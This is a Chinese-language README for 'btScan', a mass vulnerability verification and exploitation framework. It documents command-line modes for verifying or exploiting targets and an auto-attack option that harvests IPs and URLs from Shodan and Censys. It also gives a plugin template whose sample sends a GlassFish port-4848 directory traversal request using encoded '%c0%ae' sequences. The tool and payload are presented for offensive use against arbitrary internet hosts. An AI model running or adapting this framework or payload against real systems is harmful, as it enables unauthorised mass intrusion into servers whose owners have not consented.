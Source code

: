 ##目录结构

    --lib 核心文件库

    --report 报告生成的文件夹

    --node 里面每一个py文件是一个攻击向量，添加扫描节点也是向里面添加文件

    --crawl 通过空间搜索引擎抓取url或者ip的脚本
    

##使用方法
    python btScan.py
    usage: btScan.py [options]
    
    * batch vulnerability verification and exploition framework. *
    By he1m4n6a
    
    optional arguments:
      -h, --help   show this help message and exit
      -t THREADS   Num of scan threads for each scan process, 20 by default
      -m MODE      select mode [config|script]
                   e.g. -m script
      -n NAME      from node floder choose a script
      -c COMMAND   give an instruction when use script mode [verify|exploit]
                   e.g. -c verify
      -u URL_FILE  input url file
      -i IP_FILE   input ip file
      -autoIP      get ip from space search engine and auto attack
      -autoURL     get url from space search engine and auto attack
      -v           show program's version number and exit

脚本存在两种验证模式，一种是通过加载模块，另一种是通过配置文件。复杂的可以通过加载脚本，简单的通过加载配置文件即可。然后攻击也有两种模式，验证verify模式和攻击exploit模式。 你也可以指定ip或者url作为输入格式，也可以自动获取ip或者url，那就是配合crawl文件下的网络空间抓取模块。

**示例**
```
python btscan.py -n joomla -m script -c verify -u url.txt
-n 指定node文件夹下的joomla.py，-m指定为script模式，即指定加载模块的模式。-c指定模式为验证，仅为验证就好了，-u指定输入为url的模式。
```
```
python btscan.py -n joomla -m script -c exploit -u url.txt
同上，只是指定为攻击模式。
```
```
python btscan.py  -m config -c verify -i ip.txts
-m指定为config模式，-c指定为验证模式，-i指定输入的为ip模式，仅需通过conf目录下的scan_rule.ini的配置就够了。
```


##插件编写规则

仅需要在node文件夹下新增一个py文件

py文件中重要的有两个函数verify和exploit函数，没有exploit攻击模式，仅需要verify函数，返回值有三个值，第一个值是返回是否存在漏洞，返回True或者False；第二个值是返回url，第三个值返回需要打印的信息。

***示例(glassfish.py为例)***

```
#!/usr/bin/env python
#coding=utf8

import requests

def verify(ip):
    url = 'https://' + str(ip) + ':4848//theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/'
    try:
        r = requests.get(url, verify=False, timeout=5)
        if 'ejb-timer-service-app' in r.text:
            msg = 'vul'
            return True, ip, msg
	else:
            msg = 'safe'
            return False, ip, msg
    except Exception, e:
        #msg = str(e)
	msg = 'safe'
        return False, ip, msg


def exploit(ip):
    verify(ip)
```
上面函数都可以自己定义，主要是verfiy和exploit函数，如果exploit函数和verify函数一样，exploit函数里面只要简单的调用verify(url)即可。

##其他

crwal文件夹的NetSearch.py里面的shadon和censys模块的密钥要自己填上。

有任何交流和问题可以联系我he1m4n6a@163.com
